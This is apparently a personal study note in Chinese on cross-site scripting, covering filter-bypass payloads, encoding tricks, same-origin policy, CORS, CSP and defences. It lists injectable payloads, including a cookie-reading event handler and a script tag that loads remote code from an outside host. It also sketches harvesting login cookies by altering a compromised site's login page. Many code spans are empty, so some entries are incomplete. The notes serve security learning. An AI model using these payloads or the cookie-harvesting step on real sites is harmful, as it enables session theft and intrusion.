









[toc]

## 反射性xss

### bypasstips

> 1. 用空格 tab 等插入关键字
> 2. 对标签转码：ASCII码
>
> 
>
> > 防御方法：过滤&#等字符
>
> ​	
>
> 3. 事件触发js
>
> 
>
> 
>
> 4. 利用css
>
>    
>
>    
>
> 5. 大小写绕过：
>
> 6. 
>
> 7. 插入注释符
>
> 
>
> 
>

###


### javascript伪协议

> `javascript:alert("xss")`

### xss payload

> `" > <a href='javascript:alert("xss")'>test</a>`
>
> `"> <a HREF='javascript:alert(1)'>test</a>`
>
> `" > <sscriptcript>alert(1)</sscriptcript>`
>
> `javascript:alert(1)// http://` //是注释`
>
> ``
>
> >  `空格= %0a < = %3c > = %3E`
>
> #### 常用xsspayload和bypass
>
> > 
> >
> > #### tips
> >
> > > 标签和标签属性之间可以死多个空格 单引号 回车 /
> > >
> > > utl可以shit双引号 单引号 也可以没引号  ***ie中可以是反引号***
> > >
> > > 结尾可以是`/`结尾
> > >
> > > 正则的时候可以加一些空格 换行 空白符之类的绕过换行
> >
> > #### 一些事件
> >
> > > `autofocus`
> > >
> > > 
> >
> > 
> >
> > 
> >
> > ==无引号 无分号==
> >
> > ``
> >
> > ==大小写绕过==
> >
> > ``
> >
> > ==html编码绕过== 必须使用分号
> >
> > ``
> >
> > ==双写绕过==
> >
> > > `<scr<script>ipt>alert("XSS")</scr<script>ipt>`
> >
> > ==事件绕过==
> >
> > > `<div onclick ="alert('xss')">`等号后加个空格
> >
> > ==行内样式==利用IE浏览器支持的动态性
> >
> > > `<div style="color: '<'; color: expression(alert('XSS'))">`
> >
> > ==xss定位器==
> >
> > > `”;!–”<XSS>=&{()}`
> >
> > ==重音符绕过==
> >
> > > 
> >
> > ==a标签==
> >
> > `<a onmouseover=alert(document.cookie)>xxs link</a>`
> >
> > ==不使用引号==
> >
> > > ``1
> >
> > ==默认为空的属性==
> >
> > > 
> >
> > ==不含src==
> >
> > ``
> >
> > ==10进制编码==
> >
> > > 
> > >
> > > ***不带分号 且高位补零***
> > >
> > > ```html
> > >  > > 
> > > #0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
> > > ```
> >
> > ==16进制编码==
> >
> > > ``
> >
> > ==unicode==
> >
> > > `</img>`
> >
> > ==内嵌tab 换行符 回车==
> >
> > > ``tab
> > >
> > > ``换行
> > >
> > > ``回车
> >
> > ==伪协议前加空格或者元字符==
> >
> > > ``
> > >
> > > 实际情况是你可以插入任何十进制的1至32号字符：
> >
> > ==浏览器特性==
> >
> > > `<SCRIPT/XSS SRC=”http://xss.rocks/xss.js“></SCRIPT>`
> >
> > ==额外的尖括号==
> >
> > > `<<SCRIPT>alert(“XSS”);//<</SCRIPT>`
> >
> > ==空格被过滤==
> >
> > > ***用`/**/`或者`/`***
> >
> > ==单引号被过滤==
> >
> > > 反引号过滤
> >
> > ==括号被过滤==
> >
> > > 
> > >
> > > svg+html 实体编码
> > >
> > > 


## 存储型xss

> 存储在目标服务器中，具有更强的隐蔽性。
>
> 论坛，博客，留言板中常见


## DOM型xss

> DOM动态分文更新文档的内容，结构及其样式

#### cookie权限维持

> 条件：
>
> > 已经获取webshell权限
> >
> > 网站后台目录文件有可写权限
>
> 通过修改后台登录成功文件，利用js代码获取每次登录成功的cookie权限

### xss的webshell箱子攻击

### xssBypass

> 1. 

### 同源策略(cop)

> 不允许脚本直接读取http回复消息
>
> 
>
> 同协议 同主机 同端口
>
> 浏览器允许的一般是：
>
> >
> >
> >跨域写：表单提交 links
> >
> >跨域嵌入
>
> ***跨域读是不被允许的***
>
> `COPS策略（跨域资源共享标准）`
>
> 
>
> 跨域请求前会先发送一个`prefiligh`请求检查，一些请求不会触发此机制，叫做`simple request`
>
> > get请求
> >
> > HEAD请求
> >
> > 
> >
>
> #### 解除跨域资源访问的方法
>
> > ==cookie==
> >
> > > 在上一级域名设置:`document.cookIe=test.com`
> > >
> > > 之下的域名可以读取`cookie`
> >
> > #### ==inframe&window.open==
> >
> > 1. 片段识别符
> >
> >    > url后的`#`
> >    >
> >    > `http://example.com/x.html#fragment的#fragment`
> >
> > 2. `window.name`
> >
> > 3. 最佳方法:`window.postMessageg`
> >
> >    > `var popup = window.open('http://bbb.com', 'title');`
> >    >
> >    > `popup.postMessage('Hello World!', 'http://bbb.com');`
> >    >
> >    > `postMessage(消息内容,url)`
> >
> > 4. `jsonp`:只能发送get请求
> >
> > 5. window.name
> >
> >    > a.com/index.html
> >    > a.com/empty.html
> >    > b.com/index.html
> >    >
> >    > （1）在a.com/index.html 页面中嵌入一个iframe，设置src为b.com/index.html
> >    > （2）b.com/index.html 载入后，设置window.name，然后再使用location.href='a.com/empty.html' 跳转到与iframe外页面同域的页面中。
> >    > （3）在a.com/index.html 页面中，就可以通过`$('iframe').contentWindow.name`来获取iframe内页面a.com/empty.html 的`window.name`值了，而这个值正是b.com/index.html 设置的。

### CORS(跨源资源共享)

> 通过自定义的http头部来实现 让浏览器和服务器沟通 从而决定请求或者响应是否应答

==具体流程-==


### window.localStorage

>

### 变种xss 持久控制

> service worker:
>
> > 静态资源缓存
>
> 

## xss防御

> 1. 过滤输入
> 2. 白名单
> 3. HTML编码

### 同源策略:

> 关键词:`不同域 脚本 授权 读写 资源`
>
> 假设目标站点是`www.foo.com`返回
>
> > `Access-Control-Allow-Origin: http://www.evil.com  `evil才可读写foo资源
> >
> > AJAX:异步的js和xml:对页面局部更新 节省带宽 不刷新页面
> >
> > 

### CSP(内容安全策略)

#### 防御

> 1. 设置httponly
>
> 2. 设置`secure cookie`
>
>    > 只允许https传递
>
> 3. 尽量使用内存`cookie`而不是本地`cookie`
>
> 4. 设置`x-Fram-options`来组织fram
>
> 5. 如果非必要必要开启`cors(跨域资源共享)

### payload

> ` "><a href=" javascript:alert(1)"`

### 编码

> #### html
>
> 
>
> 
>
> 
>
> #### js编码
>
> ****
>
> #### url编码
>
> 
>
> 
>
> #### base64编码
>
> 
>
> 编码规则：
>
> > javascript是伪协议 对其进行url编码后无法执行
> >
> > 对`< >`编码意味着是普通字符
> >
> > onerror支持的是`**html10,html16，jsunicode,**`
> >
> > 支持伪协议的属性
> >
> > `onclick，onerror，href，src`
> >
> > js中的Unicode不能全部编码 对关键函数进行编码 解析为标识符才可 控制字符不能编码
> >
> > ***script标签中的任何HTML都不会被解析 `script`属于原始文本元素(Raw text elements)，只可以容纳文本，注意**没有字符引用***`<stytle>`标签同样也是
> >
> > #### Unicode转义序列来表示一个控制字符时，例如单引号、双引号、圆括号等等，它们将不会被解释成控制字符，而仅仅被解码并解析为标识符名称或者字符串常
> >
> > ==典型例子==
> >
> > > payload：
> > >
> > > ```html
> > > <a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;&#x35;&#x29;"></a>
> > > ```
> > >
> > > 先html解码
> > >
> > > `<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(15)"></a>`
> > >
> > > url解码
> > >
> > > `javascript:\u0061\u006c\u0065\u0072\u0074(15)`
> > >
> > > js解码：
> > >
> > > `javascript:alert(15)`
> > >
> > > 
> > >
> > > 

### 防御

> 
>
> 用一些开源库来转义，不要自己造轮子
>
> 1. cookie设置httponly属性 js无法读取

### 总结:

> cosp:
>
> > 简单请求:
> >
> > head get post http请求字段也有限制:
> >
> > 1. 浏览器发送orgin字段
> > 2. 服务器回应 access-conctl-allow-origin:
> >
> > 非简单请求
> >
> > put deletet
> >
> > 1. 预检查 使用options的方式 包含origin.access-control-request-method请求的方法 和额外的字段
>
> csp:内容安全策略
>
> > 网站通过发送一个csp头部 告诉浏览器什么是被授权 什么是被禁止的
> >
> > 实质就是白名单制度.
> >
> > 在httpheader或者http meta中